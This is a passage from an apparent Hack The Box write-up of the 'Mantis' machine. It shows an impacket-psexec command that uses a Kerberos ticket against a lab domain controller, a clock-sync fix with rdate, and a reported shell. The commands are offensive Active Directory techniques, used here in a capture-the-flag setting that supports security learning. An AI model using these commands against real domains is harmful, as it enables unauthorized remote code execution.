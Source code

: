 Setting up metasploit and running we succeed!

!["Metasploit"](assets/msf.png)

Yeah, no it didn't work 
```bash
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ KRB5CCNAME=20230726183221_default_10.129.165.179_mit.kerberos.cca_175363.bin impacket-psexec -k -no-pass james@htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.)
```

Right, this is awkward, let's just pretend this never happened.

Just kidding, it's just an issue with our time, let's sync it with the dc and generate the ticket again
```bash
$ sudo rdate -n 10.129.165.179 
```

Re-generating the exploit, and boom we get a shell

!["Shell using msf generated ticket"](assets/msf-ticket.png)
